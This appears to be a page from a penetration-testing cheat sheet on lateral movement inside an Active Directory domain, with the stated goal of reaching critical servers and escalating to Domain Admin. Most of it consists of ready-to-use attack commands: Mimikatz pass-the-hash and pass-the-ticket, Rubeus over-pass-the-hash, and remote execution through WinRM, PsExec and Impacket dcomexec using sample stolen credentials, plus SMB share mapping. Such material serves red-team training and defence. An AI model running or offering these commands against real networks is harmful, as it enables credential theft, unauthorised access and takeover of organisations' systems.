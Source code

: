 ### Why It Matters  
- Move to critical servers (file servers, AD CS, etc.) and escalate to DA if not yet.

### Tools & Commands  

#### PtH (Mimikatz)  
```powershell
mimikatz.exe 'sekurlsa::pth /user:corp\jsmith /domain:corp.local /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:powershell.exe'
```
- Then connect remote:  
  ```powershell
  Enter-PSSession -ComputerName WS002 -Credential corp\jsmith
  ```

#### PtT (Mimikatz)  
```powershell
mimikatz.exe 'kerberos::ptt TGT.kirbi'
```
- Check:  
  ```powershell
  klist
  ```
- Then SMB:  
  ```powershell
  net use \\WS002\C$ 
  ```

#### Over-Pass the Hash (Rubeus)  
```powershell
Rubeus.exe asktgt /user:corp\jsmith /aes256:HASH /domain:corp.local /dc:DC01.corp.local /ptt
```

#### Remote Execution  

- **WinRM**:  
  ```powershell
  Enable-PSRemoting -Force
  Enter-PSSession -ComputerName WS002.corp.local -Credential corp\jsmith
  ```
- **PSExec**:  
  ```powershell
  psexec \\WS002.corp.local -u corp\jsmith -p 'Password123' cmd.exe
  ```
- **DCOM (Impacket)**:  
  ```bash
  dcomexec.py corp\jsmith:Password123@10.0.0.20
  ```

### Step-by-Step Guide  

#### Scenario A: SMB Share Movement  
- Enumerate shares:  
  ```powershell
  net view \\WS002.corp.local
  ```
- Map share:  
  ```powershell
  net use Z: \\WS002.corp.local\C$ /user:corp\jsmith Password123
  ```
